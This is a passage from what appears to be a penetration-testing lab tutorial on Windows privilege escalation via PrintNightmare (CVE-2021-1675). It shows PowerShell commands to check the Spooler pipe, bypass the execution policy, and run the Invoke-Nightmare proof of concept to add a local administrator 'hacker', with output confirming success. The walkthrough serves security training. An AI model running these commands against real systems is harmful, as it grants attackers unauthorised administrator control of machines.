 ### Checking for Spooler Service

We can quickly check if the Spooler service is running with the 
following command. If it is not running, we will receive a "path does 
not exist" error.

Kernel Exploits

```powershell
PS C:\htb> ls \\localhost\pipe\spoolss

    Directory: \\localhost\pipe

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss

```

### Adding Local Admin with PrintNightmare PowerShell PoC

First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

Kernel Exploits

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

```

Now we can import the PowerShell script and use it to add a new local admin user.

Kernel Exploits

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll

```

### Confirming New Admin User
